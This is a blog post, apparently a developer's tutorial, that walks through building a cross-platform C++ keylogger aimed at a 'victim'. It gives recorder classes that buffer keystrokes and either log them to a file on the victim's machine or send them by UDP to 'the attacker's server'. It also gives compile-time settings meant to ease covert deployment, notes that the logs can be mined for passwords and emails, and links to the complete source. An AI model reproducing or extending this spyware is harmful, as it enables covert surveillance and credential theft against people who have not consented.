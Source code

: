 ```yaml
---
title: "keylogger: A Cross-Platform Keylogger"
date: 2023-11-13T11:04:37-08:00
description: "How to write a cross platform keylogger."
tags: ["cli-tools", "c++", "linux", "windows", "x11"]
---
```


If you're familiar with the kbhell[^1] application, you might realize that
kbhell is about 90% of the way to being a keylogger. Why not finish the job and
write a proper, cross platform keylogger that captures a victim's every
keystroke (for science reasons, of course)?

## The Requirements

So there's the obvious requirement of capturing user keystrokes. When you think
about the fact that keyboards have different layouts, there are different
language sets, etc., the task becomes challenging.

Another interesting issue that comes up is how do you record the keystrokes? You
could write it to a hidden file on the victim's PC. Yeah that works but then
you'd need a way of getting that file off their PC. Another idea is to transmit
the data over the network. If sending data over the network, what should trigger
packet transmission? Do you send when you hit some packet size threshold or do
you send data at a fixed frequency?

As an answer to these questions, this keylogger will adhere to the following
requirements:

1. Record user keystrokes that correspond to printable characters as defined by
   the currently installed C locale.
2. Support recording to a plaintext file on the victim PC.
3. Support recording to a UDP socket.
4. Support a configurable recording mode.
5. Support a configurable capture frequency.

The next sections discuss the implementation of these requirements.

## Capturing Keystrokes

The "Keyboard Hell"[^1] article gives coverage of this topic. The basic idea is
that the X11 event system on Linux and global hooks on Windows intercept
keystrokes without any noticeable effect on the rest of the system. 

You can use the `kbhell` keystroke capture code in `keylogger`'s implementation.
The only difference is that instead of playing a sound bite on every keystroke,
you're pushing characters to a recorder object's character buffer. You only push
printable characters as defined by `std::isprint`[^2]. The latter detail is
limiting in that you won't be able to completely playback the victim's key
history. That said, you can still analyze the output to find passwords, emails,
usernames, etc.

## Recording Modes

Based on the initial requirements, you want to support two recording modes: text
and network. Text mode captures character data to a plaintext file on the
victim's PC. Network mode transmits the character data over the network as UDP
packets from the victim's PC to the attacker's server. 

Each mode has a recorder type object implementing the `Recorder` interface:

```cpp
/*!
 * \class Recorder
 * \brief Recorder defines an interface for buffering and transmitting user
 *        keystrokes.
 */
class Recorder {
 public:
  /*!
   * \brief Construct a recorder object with a key limit of \p key_limit.
   * \param key_limit The maximum number of keys the recorder will store in
   *                  memory.
   * \throws std::runtime_error When given a zero or negative \p key_limit
   *                            value.
   */
  explicit Recorder(int key_limit);

  Recorder() = delete;
  virtual ~Recorder() = default;
  Recorder(const Recorder&) = default;
  Recorder& operator=(const Recorder&) = default;
  Recorder(Recorder&&) = default;
  Recorder& operator=(Recorder&&) = default;

  /*!
   * \brief Buffer the char \p character in memory.
   * \details Characters are buffered in memory. If the buffer limit has been
   *          reached, the buffer will be emptied via a call to Transmit() and
   *          then \p character will be added to the buffer.
   * \param character A printable character as classified by the currently
   *                  installed C locale.
   * \throws std::runtime_error When BufferKeyPress() must call Transmit() to
   *                            make room for \p character in the buffer but
   *                            Transmit() fails.
   */
  void BufferKeyPress(char character);

  /*!
   * \brief Transmit keystroke buffer contents to the recording medium.
   */
  virtual void Transmit() = 0;

 protected:
  using CharList = std::vector<char>;

  int num_keys_;  /**< Number of keystrokes currently buffered. */
  CharList keys_; /**< Keystroke char buffer. */
};
```

`Recorder` types all maintain a fixed size `char` buffer called `keys_`. On
construction, the user specifies the size of the buffer via the `key_limit`
constructor parameter. The user can add characters to the buffer via the
`BufferKeyPress()` method. When the buffer is full, `BufferKeyPress()` calls
`Transmit()` and then inserts the new character. `Transmit()` is a method
implemented by all recorder types. `Transmit()` writes buffered data to some
recording medium (for example, a text file or a socket).

As you might have guessed by now, each recording mode has an associated
`Recorder` subtype. The text file recorder has the `FileRecorder` type and the
UDP recorder has the `NetworkRecorder` type. Below is the implementation of the
text and network recorders' `Transmit()` method.

```cpp
void FileRecorder::Transmit() {
  if (!num_keys_) {
    return;
  }

  /* We open and close the log file everytime Transmit() is called because we
   * want to ensure in the case the program is stopped abruptly, we will have a
   * chance at saving some keystroke data. */
  std::ofstream log_handle(log_path_.c_str(), std::ios_base::app);
  if (!log_handle) {
    throw std::runtime_error("unable to open key log file");
  }
  log_handle.write(keys_.data(), num_keys_);
  num_keys_ = 0;
}

void NetworkRecorder::Transmit() {
  if (!num_keys_) {
    return;
  }

  int bytes_sent = tx_socket_.Send(keys_.data(), num_keys_);
  if (bytes_sent != num_keys_) {
    std::cerr << "warning: only" << bytes_sent << "/" << num_keys_
              << "bytes sent" << std::endl;
  }
  num_keys_ = 0;
}
```

You'll notice that `FileRecorder::Transmit()` opens and closes the file handle
each time its called. Not the most efficient method of performing file IO.
However, the comment in the code explains the reasoning. When you halt the
keylogger, there's no guarantee that the data sent via the stream gets written
to the file. Explicitly closing the file handle flushes the stream contents. In
retrospect, this would have been a good use case for using
`std::ostream::flush`[^3].

The `NetworkRecorder` uses a wrapper around a Linux/Windows UDP socket to
transmit data. You can look at the UDP wrapper source[^4] to get the full
details.

## Configuration

You might expect to pass configuration via command line args. However, when you
think about the deployment use cases for a keylogger, having to inject your
keylogger's binary plus a bunch of CLI args doesn't sound appealing. To solve
this issue, `keylogger` is compile time configurable. Below are the
configuration options:

```cpp
enum RecorderType {
  kText = 0, /* Record to text file. */
  kNetwork,  /* Record to UDP socket. */
};

/* These are essentially your program options. You want to build your options
 * into the executable to make deployment of the keylogger easier down the line
 * (i.e., you don't want to have to sneakily deploy/inject the keylogger
 * executable AND a bunch of CLI options). */

/* Recording medium. */
#define RECORDER_TYPE RecorderType::kText
/* Max number of keystrokes buffered in memory before the data is written to the
 * recorder. */
#define RECORDER_KEY_LIMIT 8
/* Keystroke log file (RecorderType::kText only). */
#define RECORDER_FILE_PATH "/home/ieg/dev/keylogger/bin/keys.txt"
/* UDP socket IPv4 address and port of the remote server collecting keystroke
 * data (RecorderType::kNetwork only). */
#define RECORDER_IP "127.0.0.1"
#define RECORDER_PORT 5555
```

The keylogger user can select their recording mode and then set options specific
to that mode. One can edit the `keylogger.cpp` file directly or pass the
relevant options to the compiler (for example, `-DRECORDER_KEY_LIMIT=256`).

Regardless of the mode selected, you must always set `RECORDER_KEY_LIMIT`.
`RECORDER_KEY_LIMIT` controls the size of the keystroke buffer and therefore the
frequency of transmission. Set this value too low and the keylogger might be a
bit too noisey (that is, produces a lot of net traffic or disk IO overhead). Set
it too high and you might not see any data transmitted. The sweet spot is up to
the attacker to decide.

## Conclusion

Below is a demo showing `keylogger` in action on a Linux system.

{{< video src="/posts/keylogger/keylogger-demo.mp4" type="video/mp4" preload="auto" >}}

The project includes `key_capture.py`, a script that prints captured key data
from a remote keylogger running in network mode. During the demo, the script
captures keystrokes from the NeoVim editor.

The toughest part of developing the keylogger is by far the capture of global
keystrokes which is highly dependent on the OS and display technology in use.
Beyond that, you have to decide how to record keystrokes. Be responsible with
how you use this or any keylogger!

The complete project source with build instructions, usage, etc. is available on
GitHub under [keylogger][7].

[1]: https://programmador.com/posts/keyboard-hell/
[2]: https://en.cppreference.com/w/cpp/string/byte/isprint
[3]: https://en.cppreference.com/w/cpp/io/basic_ostream/flush
[4]: https://github.com/ivan-guerra/keylogger/blob/master/include/io/udp/udp_socket.h
[5]: https://github.com/ivan-guerra/keylogger/blob/master/src/io/udp/linux_udp_socket.cpp
[6]: https://github.com/ivan-guerra/keylogger/blob/master/src/io/udp/windows_udp_socket.cpp
[7]: https://github.com/ivan-guerra/keylogger.git

[^1]: [Keyboard Hell][1]
[^2]: [`std::isprint`][2]
[^3]: [`std::ostream::flush`][3]
[^4]: [udp_socket.h][4], [linux_udp_socket.cpp][5], [windows_udp_socket.cpp][6]
